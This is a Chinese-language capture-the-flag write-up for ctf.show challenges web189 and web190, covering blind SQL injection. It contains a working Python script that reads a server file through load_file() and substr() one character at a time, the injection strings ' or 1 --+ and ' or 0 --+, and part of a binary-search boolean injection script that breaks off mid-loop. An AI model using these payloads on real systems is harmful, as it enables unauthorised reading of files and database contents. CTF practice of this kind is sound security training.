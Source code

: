 ### 读取文件盲注

web189

题目用户名使用sql语句时,返回密码错误，使用随意的用户名没有反应，根据sql语句的执行判断

mysql读取文件函数load_file()

```python
import requests
import time

url = "https://7b11607a-8b5a-419a-b339-18d672b8d36d.challenge.ctf.show/api/"
flagstr = "}{<>$=,;_ 'abcdefghijklmnopqr-stuvwxyz0123456789"

flag = ""
#这个位置，是群主耗费很长时间跑出来的位置~
for i in range(257,257+60):
    for x in flagstr:
        data={
        # 结合substr()函数，匹配文件某个位置的某字母
        "username":"if(substr(load_file('/var/www/html/api/index.php'),{},1)=('{}'),1,0)".format(i,x),
        "password":"0"
        }
        print(data)
        response = requests.post(url,data=data)
        time.sleep(0.3)
        # 8d25是username=1时的页面返回内容包含的，具体可以看上面的截图~
        if response.text.find("8d25")>0:
            print("++++++++++++++++++ {} is right".format(x))
            flag+=x
            break
        else:
            continue
    print(flag)
```

### 二分法---布尔盲注跑库名，表名，列名，数据

[参考](https://blog.csdn.net/m0_48780534/article/details/127244647)

```post
uname=' or 1 --+ //密码错误
uname=' or 0 --+ //用户名不存在
```

web190

关键点：将查询到的字符转化为ascll码，与给出的ascll进行**比较大小**，快速缩小爆破范围

ord()函数与ascll()函数功能相似

```python
import requests
import sys
import time

url = "https://8b39348e-64c0-406c-a70c-b6aef1da014e.challenge.ctf.show/api/"
flag = ""
for i in range(1,60):
    max = 127
    min = 32
    while 1:
        mid = (max+min)>>1
        if(min == mid):
            flag += chr(mid)
            print(flag)
```